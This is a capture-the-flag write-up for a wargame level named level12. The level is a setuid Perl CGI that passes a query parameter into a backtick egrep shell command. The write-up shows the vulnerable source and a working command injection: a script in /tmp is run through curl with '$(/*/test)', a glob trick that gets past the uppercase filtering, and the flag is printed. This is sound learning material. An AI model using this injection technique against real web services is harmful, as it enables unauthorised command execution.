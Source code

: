 # Level12
## Step by step
- In the user `level12` home directory, there is a file
  ```bash
  > ls
  -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
  ```
- The `level12` fiel contains a program that  execute a CGI on request from localhost:4646 and take 2 querystrings `x` and `y`
  ```bash
  > cat level12.pl 
  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  
  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }
  
  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
  }
  
  n(t(param("x"), param("y")));
  ```
- The goal is to execute a command in ``@output = `egrep "^$xx" /tmp/xd 2>&1`;``
  ```bash
  > cat <<hey >/tmp/TEST
  > #!/bin/bash
  > getflag > /tmp/flag
  > hey

  > chmod +x /tmp/TEST

  > curl localhost:4646?x='$(/*/test)'

  > cat /tmp/flag
  Check flag.Here is your token : XXX
```
  

